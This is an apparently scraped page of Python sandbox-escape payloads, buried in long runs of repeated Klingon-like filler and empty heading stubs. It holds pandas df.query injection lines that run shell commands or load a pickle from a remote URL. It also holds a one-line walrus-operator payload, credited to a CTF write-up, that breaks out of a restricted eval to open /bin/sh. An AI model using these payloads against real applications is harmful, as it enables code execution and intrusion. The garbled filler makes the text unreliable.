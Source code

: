 vItlhutlh. 'ej vItlhutlh 'e' vItlhutlh. 'ej vItlhutlh 'e' vItlhutlh. 'ej vItlhutlh 'e' vItlhutlh. 'ej vItlhutlh 'e' vItlhutlh. 'ej vItlhutlh 'e' vItlhutlh. 'ej vItlhutlh 'e' vItlhutlh. 'ej vItlhutlh 'e' vItlhutlh. 'ej vItlhutlh 'e' vItlhutlh. 'ej vItlhutlh 'e' vItlhutlh. 'ej vItlhutlh 'e' vItlhutlh. 'ej vItlhutlh 'e' vItlhutlh. 'ej vItlhutlh 'e' vItlhutlh. 'ej vItlhutlh 'e' vItlhutlh. 'ej vItlhutlh 'e' vItlhutlh. 'ej vItlhutlh 'e' vItlhutlh. 'ej vItlhutlh 'e' vItlhutlh. 'ej vItlhutlh 'e' vItlhutlh. 'ej vItlhutlh 'e' vItlhutlh. 'ej vItlhutlh 'e' vItlhutlh. 'ej vItlhutlh 'e' vItlhutlh. 'ej vItlhutlh 'e' vItlhutlh. 'ej vItlhutlh 'e' vItlhutlh. 'ej vItlhutlh 'e' vItlhutlh. 'ej vItlhutlh 'e' vItlhutlh. 'ej vItlhutlh 'e' vItlhutlh. 'ej vItlhutlh 'e' vItlhutlh. 'ej vItlhutlh 'e' vItlhutlh. 'ej vItlhutlh 'e' vItlhutlh. 'ej vItlhutlh 'e' vItlhutlh. 'ej vItlhutlh 'e' vItlhutlh. 'ej vItlhutlh 'e' vItlhutlh. 'ej vItlhutlh 'e' vItlhutlh. 'ej vItlhutlh 'e' vItlhutlh. 'ej vItlhutlh 'e' vItlhutlh. 'ej vItlhutlh 'e' vItlhutlh. 'ej vItlhutlh 'e' vItlhutlh. 'ej vItlhutlh 'e' vItlhutlh. 'ej vItlhutlh 'e' vItlhutlh. 'ej vItlhutlh 'e' vItlhutlh. 'ej vItlhutlh 'e'
```python
#Pandas
import pandas as pd
df = pd.read_csv("currency-rates.csv")
df.query('@__builtins__.__import__("os").system("ls")')
df.query("@pd.io.common.os.popen('ls').read()")
df.query("@pd.read_pickle('http://0.0.0.0:6334/output.exploit')")

# The previous options work but others you might try give the error:
# Only named functions are supported
# Like:
df.query("@pd.annotations.__class__.__init__.__globals__['__builtins__']['eval']('print(1)')")
```
## Qapla'wI' je 'ej qutlh! 

### 'op
#### 'op
##### 'op
###### 'op

### Qapla'wI' je 'ej qutlh! 

#### 'op
##### 'op
###### 'op

### Qapla'wI' je 'ej qutlh! 

#### 'op
##### 'op
###### 'op
```python
# walrus operator allows generating variable inside a list
## everything will be executed in order
## From https://ur4ndom.dev/posts/2020-06-29-0ctf-quals-pyaucalc/
[a:=21,a*2]
[y:=().__class__.__base__.__subclasses__()[84]().load_module('builtins'),y.__import__('signal').alarm(0), y.exec("import\x20os,sys\nclass\x20X:\n\tdef\x20__del__(self):os.system('/bin/sh')\n\nsys.modules['pwnd']=X()\nsys.exit()", {"__builtins__":y.__dict__})]
## This is very useful for code injected inside "eval" as it doesn't support multiple lines or ";"
```
## Bypassing protections through encodings (UTF-7)
